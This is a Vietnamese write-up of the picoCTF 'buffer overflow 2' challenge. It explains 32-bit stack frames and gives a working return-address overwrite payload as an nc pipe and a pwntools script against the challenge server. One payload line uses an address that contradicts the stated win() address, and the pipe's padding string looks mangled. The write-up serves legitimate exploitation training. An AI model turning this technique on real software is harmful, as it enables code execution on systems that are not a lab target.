

# buffer overflow 2

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

b) Nhận xét

- Trước hết ta phải ghi đè địa chỉ trả về vào hàm win, sau đó muốn hàm win in ra flag thì hai đối số arg1 và arg2 phải nhận các giá trị lần lượt là 0xcafef00d và 0xf00df00d

## 2. Ý tưởng khai thác

- Đầu tiên, ta phải hiểu được cấu trúc stack của một hàm hoàn chỉnh. Dưới đây là mô hình ngăn xếp khi ta gọi một hàm nào đó:



- Ở đây ta thấy arg1 và arg2 là đối số của hàm được gọi, và nó được truyền vào khi ta dùng hàm call để gọi một hàm. Tuy nhiên vì ta không dùng hàm call để gọi hàm mà ta dùng kỹ thuật ghi đè địa chỉ trở về nên việc truyền đối số không thể thực hiện bình thường được. Khi đó hàm win sẽ đọc các giá trị tại vị trí mà nó mong đợi tìm thấy tham số. Những giá trị này có thể là bất kỳ thứ gì đã có sẵn trên stack tại thời điểm đó (ví dụ: các biến cục bộ của hàm bị overflow, return address cũ, hoặc đơn giản là rác trên stack)
- Vì vậy ta phải sử dụng kỹ thuật buffer overflow để tiếp tục chèn các tham số mong muốn trực tiếp vào vùng nhớ stack mà hàm win sẽ đọc. Vấn đề ở đây là ta phải tìm được địa chỉ của ô nhớ mà win sẽ đọc.
- Khi ta ghi đè địa chỉ trở về của hàm win vào return address trên stack thì hàm win vẫn chưa được gọi. Tức là nó vẫn thực hiện tiếp các câu lệnh khác trong hàm chứ chưa nhảy đến hàm win luôn. Chỉ khi nào câu lệnh ret được gọi, giá trị ghi đè vào return address mới được sử dụng, và EIP được cập nhật. Ở đây câu lệnh ret chỉ được gọi khi hàm vuln kết thúc:


- Trước câu lệnh ret ta cũng phải quan tâm đến câu lệnh leave. Câu lệnh leave tương đương 2 câu lệnh con:

```cpp
mov esp, ebp
pop ebp
```

Giá trị hiện tại của EBP sẽ được gán vào cho con trỏ ngăn xếp, và sau đó EBP được phục hồi với
giá trị đã lưu trên ngăn xếp. Đây là minh họa ngăn xếp trước và sau khi thực hiện 2 câu lệnh trên:


- Sau đó câu lệnh ret được thực hiện, lệnh ret lấy giá trị return address tại nơi ESP trỏ đến để truyền vào EIP, đồng thời ESP cũng được tăng thêm 1 ô nhớ (4 byte):


- Sau đó hàm win được gọi, phần dẫn nhập (tức là những lệnh assembly đầu tiên của 1 hàm) của hàm win gồm hai câu lệnh:

```cpp
push ebp
mov ebp, esp
```

- Lưu ý rằng: PUSH là thao tác đưa một đối tượng vào ngăn xếp. Trong cấu trúc Intel x86 32 bit, khi ta đưa một giá trị vào ngăn xếp thì CPU sẽ tuần tự thực hiện hai thao thác nhỏ:
+ ESP được gán giá trị ESP - 4, tức giá trị của ESP sẽ bị giảm đi 4.
+ Đối số của lệnh PUSH được chuyển vào 4 byte trong bộ nhớ bắt đầu từ địa chỉ do ESP xác định.
(lệnh POP cũng tương tự)
- Hình vẽ sau (chỉ mang tính minh họa) miêu tả trạng thái của stack ban đầu và stack sau 2 câu lệnh đó:


- Vậy stack hoàn chỉnh của hàm win sẽ như sau, lưu ý rằng ô chứa địa chỉ return address và arg1, arg2 chỉ là hàm win nghĩ rằng ô đó chứa, và nó sẽ đọc giá trị tại các ô nhớ đó. Nhiệm vụ bây giờ của chúng ta là chèn vào các ô nhớ đó các giá trị mà chúng ta muốn: chèn giá trị 0xCAFEF00D vào ô nhớ chứa arg1 và giá trị 0xF00DF00D vào ô nhớ chứa giá trị arg2:


- Ta dễ dàng thấy payload sẽ là: padding + địa chỉ hàm win + 4 byte ghi đè ô nhớ chứa return address của hàm win + 0xCAFEF00D + 0xF00DF00D

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Tương tự như bài buffer overflow 1 (xem write-up bài trước) ta tự tìm được padding là 112

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm, ở đây ta tìm được địa chỉ của hàm win là 0x08049296. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \x96\x92\x04\x08
- Vậy payload cần dùng là: 112 ký tự padding +  “\xf6\x91\x04\x08” + 4 ký tự padding + \x0d\xf0\xfe\xca + \x0d\xf0\x0d\xf0

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A3Abb4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2AcA3c4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6AAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A\x96\x92\x04\x08AAAA\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0"; cat) | nc saturn.picoctf.net 51471
```

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 51472)

payload=b'a'*112 + p32(0x08049296) + b'a'*4 +  p32(0xcafef00d) + p32(0xf00df00d)

p.sendline(payload)
p.interactive()
```


## 4. Kết luận

- Địa chỉ return address trong stack bị ghi đè bởi buffer overflow, nhưng nó chỉ được thực thi khi hàm ret được gọi
- Hiểu được cấu trúc hoàn chỉnh của một stack và cấu trúc stack khi gọi hàm